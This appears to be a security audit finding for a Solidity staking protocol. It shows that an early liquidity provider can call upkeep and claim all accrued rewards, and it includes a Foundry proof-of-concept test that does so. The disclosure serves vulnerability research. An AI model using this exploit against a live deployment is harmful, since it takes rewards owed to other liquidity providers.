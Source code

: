 ```solidity
// Returns the user's pending rewards for a specified pool.
    function userRewardForPool(address wallet, bytes32 poolID) public view returns (uint256) {
        ...
        // Determine the share of the rewards for the user based on their deposited share
        uint256 rewardsShare = (totalRewards[poolID] * user.userShare) / totalShares[poolID];
	...
        return rewardsShare - user.virtualRewards;
    }
```

A potential issue is the **lack** of Initial Rewards in the Contract. Initially, the staking contract does not contain any rewards, meaning that if a user were to claim rewards immediately, they would receive nothing. To overcome this, the user needs to trigger the **upkeep** function. This function is responsible for transferring up to the maximum allowable daily rewards to the staking contract.

The **upkeep** contract employs a timer to regulate the frequency and quantity of rewards distribution. However, since this timer begins counting from the moment of the contract's deployment (in the constructor), and considering the initial voting period for starting up the exchange spans several days, it becomes feasible to distribute the maximum daily reward amount by invoking upkeep.

### Impact

A LP can exploit this vulnerability to claim all the current staking rewards in the contract. Initially, there are 555k SALT bootstrap rewards per pool in the stakingRewardsEmitter, which are emitted at a rate of 1% per day. As a result, the first LP could claim up to 5.5k SALT.

### Proof Of Concept

```solidity
function testFirstLPCanClaimAllRewards() public {
        assertEq(salt.balanceOf(alice), 0);
        bytes32 poolID1 = PoolUtils._poolID( wbtc, weth );
        bytes32[] memory poolIDs = new bytes32[](1);
        poolIDs[0] = poolID1;
        skip(2 days);
        // Total needs to be worth at least $2500
	uint256 depositedWBTC = ( 1000 ether *10**8) / priceAggregator.getPriceBTC();
	uint256 depositedWETH = ( 1000 ether *10**18) / priceAggregator.getPriceETH();
	(uint256 reserveWBTC, uint256 reserveWETH) = pools.getPoolReserves(wbtc, weth);
	vm.startPrank(alice);
        // Alice call upkeep
        upkeep.performUpkeep();
        // check total rewards for pool
        uint256[] memory totalRewards = new uint256[](1);
        totalRewards = collateralAndLiquidity.totalRewardsForPools(poolIDs);
        // Alice will deposit collateral 
	(uint256 addedAmountWBTC, uint256 addedAmountWETH, uint256 addedLiquidity) = collateralAndLiquidity.depositCollateralAndIncreaseShare( depositedWBTC, depositedWETH, 0, block.timestamp, false );
        // check alices rewards
        uint rewardsAlice = collateralAndLiquidity.userRewardForPool(alice, poolIDs[0]);
        collateralAndLiquidity.claimAllRewards(poolIDs);
        vm.stopPrank();

        assertEq(totalRewards[0], rewardsAlice);
        assertEq(salt.balanceOf(alice), totalRewards[0]);
    }
```
